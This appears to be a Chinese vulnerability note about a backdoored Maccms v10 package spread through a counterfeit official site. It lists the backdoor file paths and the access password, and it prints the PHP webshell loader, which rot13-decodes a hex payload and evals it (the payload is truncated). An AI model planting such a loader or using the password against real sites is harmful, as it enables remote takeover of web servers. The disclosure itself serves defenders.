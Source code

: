 # Maccms后门

> 原文：[https://www.zhihuifly.com/t/topic/3009](https://www.zhihuifly.com/t/topic/3009)

# Maccms后门

## 一、漏洞简介

有人假冒苹果cms官网，发布带有后门的程序。

## 二、漏洞影响

version v10

## 三、复现过程

### 后门文件路径

maccms10\extend\upyun\src\Upyun\Api\Format.php

maccms10\extend\Qcloud\Sms\Sms.php

密码 WorldFilledWithLove

### 后门样本

```
<?php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "0d41c75e2ab34a3740834cdd7e066d90";
function s(){
 $str = "66756r6374696s6r207374…………"; //大马
 $str = str_rot13($str);
 m($str);
}
function m($str){
 global $password;
 $jj = '';
 eval($jj.pack('H*',$str).$jj);
}
s();
?> 
```

![image](img/f9b30db2ccb5cc1319de94898c7ad3ab.png)